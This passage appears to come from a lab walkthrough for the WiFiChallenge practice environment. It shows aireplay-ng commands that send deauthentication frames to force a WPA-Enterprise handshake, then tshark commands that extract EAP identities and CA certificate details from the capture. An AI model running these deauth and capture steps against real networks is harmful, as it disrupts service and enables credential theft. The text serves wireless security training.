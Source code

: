 >  *To catch the handshake we DEAUTH the f#!%^g client connected to the f#!%^g AP*

- Open a second terminal tab. Send a deauthentication frame to both clients (broadcast). 
In that case any connected client will try to re-authenticate again during our capture

```bash
essid='wifi-corp'
sudo aireplay-ng -0 1 -e ${essid} wlan0mon
```
Now, return to terminal 1 and check if a WPA handshake is captured.
If you found it Press CTRL+C to stop airodump. 
Also, stop monitoring on wlan0mon. It´s important.

```bash
sudo airmon-ng stop wlan0mon
```
---

## 🔍 Analyze EAP handshake

>  *We use `tshark` to check packets and extract certificates info! This is juicy!*

```bash
dumpfile='/tmp/dump-wpa-mgt'
bssid='F0:9F:C2:71:22:1A'
tshark -r ${dumpfile}-01.cap -Y "wlan.bssid == ${bssid} && eap && tls.handshake.certificate" -V | grep rdnSequence: -A 1 | head -n 5
```
or if you have time and you want, go slow:

```bash
tshark -i wlan0 -w ${dumpfile}-01.cap -Y "eap || eapol"
tshark -r ${dumpfile}-01.cap -Y "eap" -T fields -e frame.number -e eap.code -e eap.type -e eap.identity
tshark -r ${dumpfile}-01.cap -Y "tls.handshake.certificate" -V | less
```
- Now, the info we need to collect are those concerning CA and SERVER certificates. 
In particular, we want to check these entries: 

```bash
CA:

emailAddress=ca@WiFiChallenge.com,

commonName=WiFiChallenge CA,

organizationUnitName=Certificate Authority,

organizationName= WiFiChallenge,

localityName=Madrid,

stateOrProvinceName=Madrid,

countryName=ES
```
